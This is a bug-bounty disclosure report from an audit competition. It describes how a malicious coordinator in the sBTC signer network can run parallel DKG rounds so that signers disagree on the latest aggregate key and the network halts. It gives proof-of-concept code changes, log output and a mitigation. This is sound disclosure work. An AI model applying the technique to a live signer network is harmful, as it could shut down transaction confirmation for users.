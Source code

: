 # #38690 \[BC-Insight] A malicious coordinator can run multiple DKG coordination in parallel and manipulate their order to break the signers network

**Submitted on Jan 10th 2025 at 05:54:16 UTC by @ZoA for** [**Attackathon | Stacks**](https://immunefi.com/audit-competition/stacks-attackathon-1)

* **Report ID:** #38690
* **Report Type:** Blockchain/DLT
* **Report severity:** Insight
* **Target:** https://github.com/stacks-network/sbtc/tree/immunefi\_attackaton\_0.9/signer
* **Impacts:**
  * Network not being able to confirm new transactions (total network shutdown)

## Description

## Brief/Intro

DKG coordination is the crucial part of the system to generate aggregate key which is used for signing transactions. A coordinator can behave maliciously during their tenure by running multiple DKG coordination process in parallel and manipulate their order, which affects the entire network.

## Vulnerability Details

The signers participate in DKG coordination rounds to share their public/private DKG shares, which at the end constructs an aggregate public key. When the DKG coordination round ends which is at the moment each signer receives `DkgEnd` message, signers store these aggregate keys into the database.

When signers are requested to sign a message, they trust the latest record of the database, thus using the latest aggregate key for signing messages.

So, thinking in the attacker's perspective, how can I break the signers network by letting signers have different perspective of "latest trusted aggregate key"?

To make this happen, one possible solution is for signers to participate in concurrent DKG coordination process which will result in different order of storing aggregate keys into the database. For example, `signer-1` could store aggregate keys in the order of `A, B`, while `signer-2` could store the keys in the order of `B, A` into the database.

Within current implementation of the protocol, it does not include a logic to prevent concurrent DKG coordination or the logic to settle concurrent DKG coordination correctly.

By abusing this implementation, a malicious coordinator can easily break the signers network by coordinating multiple DKG rounds at the same time. When the malicious coordinator distributes `DkgEnd` messages of multiple DKG rounds at the same time, there's high possibility of chances for signers to receive those messages in different order by the nature of the general network system.

## Impact Details

The issue has crucial impact to the system since it will cause disagreements between signers that leads to halt of the entire system. And it's pretty easy for the malicious coordinator to execute this process.

## References

sBTC codebase

## Proof of Concept

## Proof of Concept

The goal of the PoC is to demonstrate the discrepancy between signers regarding order of aggregate keys stored in the database. The PoC is tested on my local machine using provided dev environment with Docker.

To allow the coordinator to execute multiple DKG coordination, here's modified parts of the codebase:

In `signer/src/main.rs`, add more coordinators to simulate concurrent DKG coordination. In PoC, 4 concurrent DKG coordination is used as example.

```diff
    let _ = tokio::join!(
        // Our global termination signal watcher. This does not run using `run_checked`
        // as it sends its own shutdown signal.
        run_shutdown_signal_watcher(context.clone()),
        // The rest of our services which run concurrently, and must all be
        // running for the signer to be operational.
        run_checked(run_api, &context),
        run_checked(run_libp2p_swarm, &context),
        run_checked(run_block_observer, &context),
        run_checked(run_request_decider, &context),
        run_checked(run_transaction_coordinator, &context),
+       run_checked(run_transaction_coordinator, &context),
+       run_checked(run_transaction_coordinator, &context),
+       run_checked(run_transaction_coordinator, &context),
        run_checked(run_transaction_signer, &context),
    );
```

For the coordinator process, `txId` of a DKG round is deterministic based on coordinator's public key and Bitcoin's chain tip. To allow concurrent coordination process, modify `coordinator_id` function in `transaction_coordinator.rs` to include some random information, as follows.

```rust
fn coordinator_id(&self, chain_tip: &model::BitcoinBlockHash) -> [u8; 32] {
    let mut random_bytes = [0u8; 32];
    rand::thread_rng().fill(&mut random_bytes);
    sha2::Sha256::new_with_prefix("SIGNER_COORDINATOR_ID")
        .chain_update(self.pub_key().serialize())
        .chain_update(chain_tip.into_bytes())
        .chain_update(random_bytes)
        .finalize()
        .into()
}
```

And for observation purpose, add a logging in `transaction_signer.rs` when `DkgEnd` is received, modification as follows:

```diff
    if let WstsNetMessage::DkgEnd(DkgEnd { status: DkgStatus::Success, .. }) = outbound {
        self.store_dkg_shares(&txid).await?;
+       tracing::info!("DKG Stored: {}", txid);
    }
```

Finally, to make the test easier, I modified `bootstrap_signatures_required` config in `signer-config.toml` to 3 which means all signers have to sign messages to make it valid.

With these changes, rebuild the signers binary and start the devenv using Docker. After waiting for minutes, there were no on-chain transactions happening as expected, while DKG coordination processes are finished and all signers have aggregate keys in their database.

Here's some proof about the order of DKG coordination of each signer, and the latest aggregate key stored in each database.

**sbtc-signer-1**

```
DKG Stored: 00106c2aa012973d11413851e40ee8bf6d587753d9f2ecbb5ed1f34cd872b86c
DKG Stored: 2af962959bf72bacc9effb23d35ba637d1b768f6679d977e04372c7de4235f8a
DKG Stored: 4a20400982a1911c5fbddf7a0b709fd2f17cec8b00587da1f293f6aa7e977541
DKG Stored: f1e8208b7efb9208e64adcd9a7d24196f58e24dac84caf323eade571c1f17f88
```

```
# SELECT aggregate_key FROM sbtc_signer.dkg_shares ORDER BY created_at DESC LIMIT 1;
\x0350813815fedeaaa96f18607744e43c2ec2d69cf7c64361eeb879be23ee9dfc4c
```

**sbtc-signer-2**

```
DKG Stored: f1e8208b7efb9208e64adcd9a7d24196f58e24dac84caf323eade571c1f17f88
DKG Stored: 4a20400982a1911c5fbddf7a0b709fd2f17cec8b00587da1f293f6aa7e977541
DKG Stored: 00106c2aa012973d11413851e40ee8bf6d587753d9f2ecbb5ed1f34cd872b86c
DKG Stored: 2af962959bf72bacc9effb23d35ba637d1b768f6679d977e04372c7de4235f8a
```

```
SELECT aggregate_key FROM sbtc_signer.dkg_shares ORDER BY created_at DESC LIMIT 1;
\x021c30b509faf2a3c25a846b87ec2f8e0fc36a3e777e8556f048840f0421f13375
```

**sbtc-signer-3**

```
DKG Stored: f1e8208b7efb9208e64adcd9a7d24196f58e24dac84caf323eade571c1f17f88
DKG Stored: 4a20400982a1911c5fbddf7a0b709fd2f17cec8b00587da1f293f6aa7e977541
DKG Stored: 00106c2aa012973d11413851e40ee8bf6d587753d9f2ecbb5ed1f34cd872b86c
DKG Stored: 2af962959bf72bacc9effb23d35ba637d1b768f6679d977e04372c7de4235f8a
```

```
SELECT aggregate_key FROM sbtc_signer.dkg_shares ORDER BY created_at DESC LIMIT 1;
\x021c30b509faf2a3c25a846b87ec2f8e0fc36a3e777e8556f048840f0421f13375
```

As shown in the proof, signers have different order of DKG coordination processed, that results in discrepancy in order of storing keys in database.

Also, here's a screenshot as a proof that shows no transactions happening even after 12 minutes of system up and running.

![sBTC PoC](https://i.ibb.co/Qkzq5d0/sbtc.png)

### Recommended mitigation steps

While `txId` of DKG coordination round is deterministic in perspective of the coordinator, integrity of `txId` is not checked by signers. As a simple mitigation, the signers should validate `txId` based on the coordinator's public key and Bitcoin's chain tip. This way, it can prevent concurrent coordination happening which is the root cause of the issue.
